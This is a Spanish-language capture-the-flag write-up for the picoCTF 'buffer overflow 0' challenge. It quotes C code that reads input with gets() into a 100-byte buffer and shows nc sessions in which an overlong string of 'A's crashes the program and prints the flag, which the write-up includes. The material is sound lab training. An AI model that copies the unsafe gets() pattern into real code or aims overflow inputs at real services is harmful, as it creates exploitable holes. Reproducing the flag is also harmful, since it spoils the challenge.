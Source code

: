 # USERNAME -> amcdanymx

#### Description

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:`nc saturn.picoctf.net 51110`
 

#### PISTAS

- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

#### SOLUCIÓN

Nos conectamos desde nc, nos dan un código en c que es el que ejecuta el programa, encontramos lo siguiente:
```
  printf("Input: ");

 fflush(stdout);

 char buf1[100];

 gets(buf1);

 vuln(buf1);

 printf("The program will exit now\n");

 return 0;

}**

```

Como vemos en el Buffer que es un arreglo solo caben 100 caracteres, lo hice a mano simplemente introuduciendo 100 letras 

```
amcdanymx:bufferoverflow0/ $ ls                                              
vuln  vuln.c

amcdanymx:bufferoverflow0/ $ nc saturn.picoctf.net 51110                    
Input: asdasdsd

The program will exit now

amcdanymx:bufferoverflow0/ $ code vuln.c                                          

amcdanymx:bufferoverflow0/ $ nc saturn.picoctf.net 51110                 
Input: Aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaasssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss

amcdanymx:bufferoverflow0/ $ nc saturn.picoctf.net 51110                                            [15:02:37]

Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}

**

```